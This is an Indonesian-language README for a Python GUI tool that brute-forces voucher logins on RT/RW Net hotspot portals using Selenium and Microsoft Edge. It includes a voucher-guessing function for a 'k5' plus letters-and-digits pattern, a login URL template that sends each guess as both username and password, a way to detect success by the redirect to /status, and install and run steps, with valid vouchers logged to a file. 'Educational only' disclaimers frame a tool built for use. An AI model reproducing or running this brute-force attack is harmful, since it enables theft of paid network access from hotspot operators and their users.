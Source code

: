 # 🔐 Brute Force Voucher RT/RW Net - GUI (Microsoft Edge)

Program Python ini digunakan untuk melakukan brute force login ke halaman login RT/RW Net, dengan antarmuka GUI berbasis Tkinter dan browser otomatis menggunakan Microsoft Edge atau browser yang lain (Selenium WebDriver).

> ⚠️ **FOR EDUCATIONAL PURPOSES ONLY** ⚠️  
>  This project is intended for educational and ethical testing purposes only.
>  Do NOT use this on networks or systems you do not own or have explicit permission to test.
>  Use responsibly. The author takes no responsibility for misuse.

---

## 🎯 Fitur

- Generate kode voucher otomatis: `k5` + 2 huruf + 2 angka (contoh: `k5sj65`) atau bisa disesuaikan dengan pola voucher RT/RW Net yang ada
- Login otomatis ke halaman hotspot menggunakan Microsoft Edge (headless)
- Deteksi redirect URL untuk memverifikasi login sukses
- Simpan voucher valid ke file `valid_voucher.txt`
- GUI interaktif:
  - ✅ Mulai brute force
  - 🛑 Hentikan brute force
  - 📄 Tampilkan daftar voucher valid

---

## 🧠 Cara Kerja

Program akan:

1. Meng-generate kombinasi kode voucher secara acak dengan format `k5[a-z][a-z][0-9][0-9]`.
2. Mencoba login ke halaman seperti berikut:

   ```
   http://goa.tech/login?dst=http://www.msftconnecttest.com/redirect&popup=true&username=<voucher>&password=<voucher>
   ```

3. Jika login berhasil, akan ter-redirect ke halaman `/status`.
4. Jika login gagal, URL akan tetap di halaman `/login`.
5. Voucher yang valid disimpan otomatis ke file `valid_voucher.txt`.

---

## 🧩 Struktur Generate Kode Voucher (Sesuaikan dengan Kebutuhan)

```python
def generate_voucher():
    huruf = string.ascii_lowercase
    angka = string.digits
    return "k5" + ''.join(random.choices(huruf, k=2)) + ''.join(random.choices(angka, k=2))
```

Contoh hasil:
```
k5ab12
k5ks45
k5ty91
```

---

## 💻 Kebutuhan Sistem

- Python 3.7 atau lebih baru
- Microsoft Edge atau browser lain yang digunakan 
- Edge WebDriver (msedgedriver.exe) atau sesuaikan dengan WebDriver browser yang digunakan
- Selenium Python library

---

## 📦 Instalasi

1. **Clone repositori**:

   ```bash
   git clone https://github.com/islahulanwar/brute-force_rt-rw-net.git
   ```

2. **Install dependensi Python**:

   ```bash
   pip install -r requirements.txt
   ```

3. **Download Microsoft Edge WebDriver**  
   Sesuaikan dengan versi browsermu:
   - Edge ➡️ https://developer.microsoft.com/en-us/microsoft-edge/tools/webdriver/
   - Chrome ➡️ https://developer.chrome.com/docs/chromedriver/downloads
   - FireFox ➡️ https://developer.mozilla.org/en-US/docs/Web/WebDriver

---

## 🚀 Menjalankan Program

```bash
WebDriver.exe
brute_force_voucher.py
```

GUI akan muncul, kemudian kamu bisa:

- Klik **"Mulai Brute Force"** untuk memulai
- Klik **"STOP"** untuk menghentikan
- Klik **"Lihat Voucher Valid"** untuk membuka log valid

---

## 📁 Output

Voucher yang valid akan dicatat di:

```
valid_voucher.txt
```

Contoh isi:

```
k5sj65 | 2025-07-24 11:45:32
```

---

## 📂 Struktur Folder

```
.
├── WebDriver.exe
├── brute_force_voucher.py
├── valid_voucher.txt
├── requirements.txt
└── README.md
```

---

## 🧾 File requirements.txt

```text
selenium
```

---

## ⚠️ Disclaimer

> Program ini hanya untuk tujuan edukasi!  
> Dilarang menggunakan alat ini untuk mengakses jaringan tanpa izin.  
> Penggunaan di luar tanggung jawab penulis dan dapat melanggar hukum yang berlaku.

---
